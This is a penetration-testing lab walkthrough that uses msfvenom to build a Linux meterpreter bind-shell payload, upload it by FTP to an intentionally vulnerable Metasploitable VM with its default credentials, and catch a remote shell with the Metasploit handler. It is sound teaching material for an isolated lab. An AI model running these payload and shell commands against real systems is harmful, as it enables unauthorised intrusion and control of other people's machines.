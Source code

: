 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to establish a bind shell on a Linux target using Msfvenom and Metasploit.

**Lab Purpose:**

Msfvenom is a command line instance of Metasploit that is used to generate payloads and can also encode them. How payloads are produced for different purposes is explained in detail in lab 74. It is recommended that you look there for more information.

The Metasploit framework is a powerful tool which can be used to probe systematic vulnerabilities on networks and servers. It provides information about security vulnerabilities and aids in penetration testing and IDS signature development.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![msfvenom](attachements/msfvenom-3.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Both msfvenom and metasploit come pre installed on Kali. We can view the help screen for both tools by typing the following into our terminal:

msfvenom

msfconsole

In this lab, we will be generating a bind shell payload using msfvenom, and then using Metasploit to establish a handler which will connect to the target. The goal is to establish a shell on our Metasploitable VM.

### Task 3:

To begin, we will first need to create a payload for our Metasploitable VM. To do this, we will use the following command:

msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=5555 -f elf -o bind.elf

![msfvenom](attachements/msfvenom-4.png)

Once this is done, type “file bind.elf ” in your terminal and you should see details of the payload file you just created in your home directory.

### Task 4:

In this step, we will somehow place the payload file on the target machine. Make sure Metasploitable VM is up and running. In this case, we will be transferring the file through FTP. To do this, open a terminal in Kali VM and type the following (1):

ftp 192.168.56.102

192.168.56.102 is the IP address of our Metasploitable VM in this instance. When asked, enter msfadmin as the username and password (2).

We will use the “put“ command in FTP to send the payload file to the target machine (3). Next to the “put” command, we will write the name of the payload file, which is “bind.elf” in this case. After the transfer is complete, let’s make sure that the payload file is at the target location by typing “ls”

![Metasploitable VM](attachements/Metasploitable_VM-5.png)

(4). Finally, we end the FTP session by typing “by” (5).

Our evil binary file has been placed on the victim machine now.

### Task 5:

We then need to make this file executable on our Metasploitable VM. In our Kali terminal screen type the following (1):

![Metasploitable VM](attachements/Metasploitable_VM-4.png)

ssh [msfadmin@192.168.56.102](mailto:msfadmin@192.168.56.102)

Type yes when asked if you are sure you want to connect to this host. Then, type msfadmin for the password when prompted (2). We are now connected to our Metasploitable VM through SSH.

We can now make the payload executable by typing the following (3):

chmod +x bind.elf

Once this is done, leave the SSH connection to our Metasploitable VM open and open a new terminal. We will now need to establish the handler which will connect to our target, which will be listening for our connection when our payload is executed.

### Task 6:

To establish the handler, we will be using Metasploit. Start the tool by typing the following:

msfconsole

Then type the following command to specify that we want to establish a handler (1):

use exploit/multi/handler

Once the multi/handler is selected, we need to specify three things: the remote host which we want to connect to, the local port, and the payload type. We can do this by typing the following commands into the terminal (2,3,4):

set rhost 192.168.56.102  
set lport 5555  
set payload linux/x86/meterpreter/bind_tcp

![Metasploitable VM](attachements/Metasploitable_VM-6.png)

Once these commands are entered, we will then go back to our SSH connection screen with our Metasploitable VM.

### Task 7:

Finally, we can execute the payload on our target. Navigate back to the tab with the established SSH connection. Then, type the following:

./bind.elf

Once you hit enter, return to the tab which has the Metasploit handler open and type “run” (1). Metasploit will then connect to the target and send the exploit stage; we will then have a meterpreter shell on our target.

When we execute our payload on the Metasploitable VM, we establish a listener on port 5555 on our target. The handler then connects to our target on port 5555, and sends the stage to establish a shell (2). This is how bind shells work.

![Metasploitable VM](attachements/Metasploitable_VM-7.png)

You will see a meterpreter session has been started and is now open. We have successfully established a stable shell! We can access the shell by typing “shell“ into meterpreter (3). Type “whoami” and “id” commands in this remote shell (4). We can return to the Meterpreter interface from the shell by typing “exit“ into the shell (5).